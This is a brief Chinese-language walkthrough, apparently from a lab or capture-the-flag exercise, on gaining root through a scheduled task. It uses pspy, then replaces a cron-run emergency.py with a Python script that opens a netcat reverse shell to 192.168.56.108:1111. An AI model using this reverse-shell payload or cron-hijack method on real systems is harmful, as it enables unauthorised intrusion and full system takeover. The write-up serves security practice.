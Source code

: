             
  
计划任务提权  
      
  
上传pspy  
  
![](https://mmbiz.qpic.cn/mmbiz_png/KCOWlp56gVDaOgPHwicJ0AHse4X5U8KbZb3yymC2554FjeeW6Vl5vibWqtSCoYPnXcdaZicT6EGGYy4AZJvG2XTlQ/640?wx_fmt=png "")  
  
            
  
发现隔了一分钟的emergency.py  
  
![](https://mmbiz.qpic.cn/mmbiz_png/KCOWlp56gVDaOgPHwicJ0AHse4X5U8KbZAfuE5aAaMaFOlm1baQuH9lnzNpIibzRXOrXDnHJ8NPI0meopicIHFZkg/640?wx_fmt=png "")  
  
            
  
            
  
      
  
删除并新建  
  
#!/usr/bin/python  
            
  
import os  
            
  
              
  
os.system('nc -e /bin/bash 192.168.56.108 1111')  
  
![](https://mmbiz.qpic.cn/mmbiz_png/KCOWlp56gVDaOgPHwicJ0AHse4X5U8KbZoDvBohpS5NOHeFPA6TtLCNcjOOsyspn9Giaou2ILeY5Cm3HicO86FLqQ/640?wx_fmt=png "")  
  
            
  
提权成功  
      
  
![](https://mmbiz.qpic.cn/mmbiz_png/KCOWlp56gVDaOgPHwicJ0AHse4X5U8KbZvMsom6T1mHPoD2opM4qXRvibic2taTwtzdgZ3T1J2gE9B2OWp8WyHStg/640?wx_fmt=png "")  
  
      
  
